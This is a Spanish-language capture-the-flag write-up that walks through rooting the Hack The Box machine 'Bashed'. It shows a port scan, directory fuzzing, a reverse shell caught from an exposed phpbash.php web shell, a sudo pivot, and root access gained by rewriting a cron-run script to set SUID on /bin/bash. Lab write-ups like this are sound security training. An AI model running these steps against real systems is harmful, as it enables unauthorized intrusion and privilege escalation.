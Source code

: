 ```yaml
---
title: HackTheBox - Bashed
categories: [Linux]
tags: [HackTheBox]
image: bashed.png
img_path: /assets/HTB/Bashed
---
```


En este post voy a explicar como resolver la máquina Bashed de [Hack The Box](https://app.hackthebox.com/machines/118), en la cual vamos a estar ganando acceso mediante un archivo subido en la web el cual nos permite ejecutar comando, y para la escalada nos aprovecharemos de una ```tarea cron```.

## Escaneo de puertos

```
# sudo nmap -p- -sS --min-rate 5000 -sCV -oN nmap -n -Pn 10.10.10.68
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-12 20:53 -03
Nmap scan report for 10.10.10.68
Host is up (0.23s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
Nmap done: 1 IP address (1 host up) scanned in 25.87 secondss
```

Como vemos, la página tiene el puerto 80 (HTTP) abierto.

# Enumeración
Al ingresar a la página, vemos esto.

<img src="bashed-pagina.png">

Si hacemos fuzzing, descubriremos un directorio llamado ```/dev```

```
$ wfuzz -c  --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  http://10.10.10.68/FUZZ

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.68/FUZZ
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000164:   301        9 L      28 W       312 Ch      "uploads"
000000338:   301        9 L      28 W       308 Ch      "php"
000000550:   301        9 L      28 W       308 Ch      "css"
000000834:   301        9 L      28 W       308 Ch      "dev"
```

# Reverse Shell

En el directorio ```/dev``` hay almacenado un archivo llamado ```phpbash.php```, ese archivo nos permite ejecutar comandos en la máquina víctima, vamos a mandarnos una reverse shell.

<img src="reverse-shell.png">

```
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.68] 50380
bash: cannot set terminal process group (850): Inappropriate ioctl for device
bash: no job control in this shell
www-data@bashed:/var/www/html/dev$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# Enumeración del sistema
Si hacemos un ```sudo -l```, veremos que podemos ejecutar como el usuario ```scriptmanager``` cualquier comando, vamos a lanzarnos una consola para convertirnos en ese usuario.

```
www-data@bashed:/var/www/html/dev$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
www-data@bashed:/var/www/html/dev$ sudo -u scriptmanager bash
scriptmanager@bashed:/var/www/html/dev$ id
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
```

Enumerando los directorios del sistema, encontremos uno llamado ```scripts```, en el cual hay dos archivos, uno llamado ```test.py``` y otros ```test.txt```.

```
scriptmanager@bashed:/var/www/html$ cd /scripts 
scriptmanager@bashed:/scripts$ ls -l
total 8
-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec  4  2017 test.py
-rw-r--r-- 1 root          root          12 Dec 12 17:06 test.txt
```
Si leemos el archivo ```test.py```, veremos que simplemente crea un archivo llamado ```test.txt``` en el cual escribe lo siguiente: ```testing 123!```

```
scriptmanager@bashed:/scripts$ cat test.py

f = open("test.txt", "w")
f.write("testing 123!")
f.close
```
Al hacer un ```ls -l``` veremos que el propietario del archivo ```test.py es scriptmanager``` y el propietario del ```test.txt es root```, por ende podemos deducir que hay alguna ```tarea cron``` programada para que este script se ejecute cada cierto tiempo, vamos a modificarlo para que cuando root lo ejecute, le dé permisos de ```SUID a la bash```.

# Escalada de privilegios

```
scriptmanager@bashed:/scripts$ rm test.py
scriptmanager@bashed:/scripts$ echo "import os" > test.py
scriptmanager@bashed:/scripts$ echo 'os.system("chmod u+s /bin/bash")' >> test.py
```

Luego de esperar un rato, al hacer un ```ls -l /bin/bash```, veremos que es ```SUID``` por ende para lanzarnos una bash con los permisos del propietario pondremos ```bash -p```

```
scriptmanager@bashed:/scripts$ bash -p
bash-4.3# whoami
root
```
